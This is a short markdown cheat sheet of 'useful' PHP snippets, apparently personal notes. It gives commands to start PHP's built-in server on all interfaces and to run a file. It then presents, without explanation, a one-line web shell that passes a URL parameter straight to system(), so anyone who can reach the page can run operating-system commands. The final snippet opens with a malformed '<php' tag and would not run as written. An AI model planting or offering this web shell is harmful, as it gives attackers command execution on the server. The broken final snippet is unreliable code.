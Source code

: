# Useful_PHP

PHP webserver
```bash
php -S 0.0.0.0:8000
```

Execute file:
```bash
php file.php
```

```php
<?php system($_GET['hello']); ?>
```

```PHP
<php echo("Hello");phpinfo(); ?>
```